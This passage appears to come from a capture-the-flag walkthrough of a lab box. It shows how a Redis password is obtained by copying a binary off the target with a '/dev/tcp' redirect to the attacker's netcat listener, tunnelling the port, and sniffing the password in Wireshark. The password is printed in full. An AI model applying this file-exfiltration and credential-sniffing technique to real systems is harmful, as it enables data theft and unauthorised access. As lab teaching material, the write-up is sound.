 
This looks like the result of the `info server` command. `redis-cli` is on the
box, however, if I try to connect, it’s asking for auth:

    
    
    dan_smith@shared:~$ redis-cli 
    127.0.0.1:6379> info
    NOAUTH Authentication required.
    

#### Exfil

I’ll start `nc -lnvp 445 > redis_connector_dev` on my host, and then send the
file via Bash:

    
    
    dan_smith@shared:~$ cat /usr/local/bin/redis_connector_dev > /dev/tcp/10.10.14.6/445
    

The file arrives:

    
    
    oxdf@hacky$ nc -lnvp 445 > redis_connector_dev
    Listening on 0.0.0.0 445
    Connection received on 10.10.11.172 36236
    

### Get Password

#### Dynamically

If I run the binary on my system, it fails to connect:

    
    
    oxdf@hacky$ ./redis_connector_dev 
    [+] Logging to redis instance using password...
    
    INFO command result:
     dial tcp [::1]:6379: connect: connection refused
    

I’ll disconnect my SSH session and reconnect with a tunnel from my local 6389
to Shared’s using `-L 6379:localhost:6379`. Now on running again, it works:

    
    
    oxdf@hacky$ ./redis_connector_dev 
    [+] Logging to redis instance using password...
    
    INFO command result:
    # Server
    redis_version:6.0.15
    redis_git_sha1:00000000
    ...[snip]...
    

If I run WireShark listening on the `lo` interface, it shows the exchange,
including the password “F2WHqJUz2WEz=Gqq”:
